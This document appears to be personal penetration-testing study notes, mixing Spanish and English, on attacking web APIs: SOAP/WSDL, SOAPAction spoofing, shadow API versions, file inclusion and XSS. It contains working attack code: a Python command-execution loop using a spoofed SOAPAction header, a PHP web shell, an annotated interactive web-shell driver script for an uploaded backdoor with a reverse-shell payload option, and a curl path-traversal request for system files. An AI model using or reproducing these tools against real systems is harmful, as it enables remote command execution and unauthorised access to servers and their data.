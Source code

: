 


### WSDL

Los WSDL son xmls que informan de los metodos disponibilizados, la forma de llamarlos y dónde residen


### SOAP

#### Soap Action Spoofing
SOAP messages towards a SOAP service should include both the operation and the related parameters. 
This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed 
to use an additional HTTP header called SOAPAction, which contains the operation's name. The receiving web service can identify 
the operation within the SOAP body through this header without parsing any XML.

If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to 
SOAPAction spoofing.

ejemplo de soapaction spoofin:

        import requests

        while True:
            cmd = input("$ ")
            payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
            print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)


########################### Information disclosure

Tenemos que invertir mucho tiempo en fuzzig cuando testeamos una api.
Si la api manifiesta una versión como "v2", siempre vale la pena probar versiones anteriores que pueden quedar como shadow


##########################arbitrary file inclusion.
si logramos subir una shell:
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

pero no logramos explotarla desde el servidor, podemos atacar a la api que utiliza. La ubicación de la misma estará en las request del
navegador.

un código simple en python para aprovechar esta shell y transformarla en una más interactiva:
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")


python shell.py -t url/path-to-file/file.php -o yes

############################ FIle inclusion:
cuando vemos que un endpoint nos permite buscar o presentar archivos (ej downloads) siempre es un buen momento para probar una LFI:
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
siempre se recomienda encodear el payload.

####################### XSS

Si vemos que los valores introducidos en la url del endpoint se reflejan en la página siempre es un buen momento para probar XSS.
P.D.: Siempre encodear una vez.

